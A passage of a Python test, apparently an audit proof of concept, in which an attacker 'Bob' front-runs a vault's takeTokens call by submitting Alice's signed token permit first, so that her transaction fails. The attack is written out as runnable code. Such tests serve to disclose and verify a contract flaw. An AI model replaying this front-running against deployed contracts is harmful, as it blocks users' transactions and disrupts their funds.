 ```python
                                            version="1",
                                            chainId=default_chain.chain_id,
                                            verifyingContract=zero_token.address))
    
    permit_data = ILPVault.PermitData(value=permit.value,
                                      deadline=permit.deadline,
                                      v=signature[64], 
                                      r=signature[:32], 
                                      s=signature[32:64])
    

    # Bob frontrun takeTokens TX and extract permit
    # Because Bob used the specific signature `x_vault.takeTokens` will fail
   
    # Comment this section and TX takeTokens will pass
    # '''
    zero_token.permit(permit.owner, 
                      permit.spender, 
                      permit.value, 
                      permit.deadline, 
                      signature[64], 
                      signature[:32], 
                      signature[32:64], 
                      from_=bob)
    # '''

    tx = x_vault.takeTokens(amount, permit_data, from_=alice)
    print(tx.call_trace)
    assert zero_token.balanceOf(x_vault) == amount



```